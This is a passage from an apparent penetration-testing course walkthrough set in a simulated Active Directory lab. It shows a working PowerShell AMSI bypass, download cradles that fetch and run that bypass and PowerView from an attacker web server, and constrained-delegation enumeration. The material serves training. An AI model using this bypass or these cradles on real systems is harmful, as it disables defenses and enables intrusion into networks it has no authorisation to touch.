 > Listing 18 - AppLocker rules for executable files

The truncated output shows that AppLocker is indeed in use and the rule only allows executables signed by Microsoft.

This seems very formidable but AppLocker rules do not apply to the built-in local accounts such as _Local System_, _Local Service_, or _Network Service_. Neither do they apply to the IIS _DefaultAppPool_ account, which means we only have to worry about AppLocker if we migrate into a process of a different user.

Next, we want to perform post-exploitation enumeration against Active Directory to detect any possible attack avenues. _PowerView_ excels at this, but due to its popularity, it will be detected by AMSI, which we can attempt to bypass.

Based on our previous research, we know that we can corrupt the first four bytes of the _amsiContext_ structure to turn off AMSI for the remainder of the PowerShell process runtime.

Let's reuse that code.

```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

> Listing 19 - AMSI bypass code

To use this bypass, we'll save it to amsi.txt on our Kali web server and use a download cradle to execute it in memory. Once AMSI is disabled, we'll also download PowerView and load it into memory as well.

```
PS C:\windows\system32\inetsrv> (new-object system.net.webclient).downloadstring('http://192.168.119.120/amsi.txt') | IEX
(new-object system.net.webclient).downloadstring('http://192.168.119.120/amsi.txt') | IEX

PS C:\windows\system32\inetsrv> (new-object system.net.webclient).downloadstring('http://192.168.119.120/powerview.ps1') | IEX
(new-object system.net.webclient).downloadstring('http://192.168.119.120/powerview.ps1') | IEX
```

> Listing 20 - Bypassing AMSI and loading PowerView

Once PowerView is ready, we can begin our enumeration. For any large Active Directory infrastructure, this can be a lengthy task. However, in our smaller simulated penetration test, it is possible to perform the enumeration of Computers, Users, and Groups. Output from _Get-DomainComputer_, _Get-DomainUser_, and _Get-DomainGroup_ has not been included here as it does not directly provide any attack vectors.

At the moment, our attack options are fairly limited since we only have access to a low-privileged account on a single server and no domain users are logged into it.

Besides enumerating computers, users, and groups, we should also consider enumerating Kerberos delegation, including constrained delegation:

```
PS C:\windows\system32\inetsrv> Get-DomainComputer -TrustedToAuth
Get-DomainComputer -TrustedToAuth
...
usncreated                    : 12780
distinguishedname             : CN=WEB01,OU=EvilServers,OU=EvilComputers,DC=evil,DC=com
objectguid                    : 9ea42104-7ebd-4d27-a31d-8d40ffcae127
operatingsystem               : Windows Server 2019 Standard
operatingsystemversion        : 10.0 (17763)
lastlogoff                    : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto      : {cifs/file01.evil.com, cifs/FILE01}
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=evil,DC=com
dscorepropagationdata         : {6/18/2020 6:46:34 PM, 1/1/1601 12:00:00 AM}
serviceprincipalname          : {WSMAN/web01, WSMAN/web01.evil.com, TERMSRV/WEB01, TERMSRV/web01.evil.com...}
```